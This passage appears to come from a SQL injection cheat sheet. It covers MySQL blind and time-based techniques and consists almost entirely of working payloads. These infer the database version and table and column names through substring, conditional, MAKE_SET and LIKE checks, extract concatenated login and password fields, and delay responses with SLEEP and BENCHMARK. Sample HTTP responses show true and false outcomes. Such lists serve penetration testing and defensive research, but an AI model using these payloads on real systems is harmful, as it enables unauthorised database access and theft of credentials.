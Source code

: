 ## MYSQL Blind

### MYSQL Blind with substring equivalent

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

```sql
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```
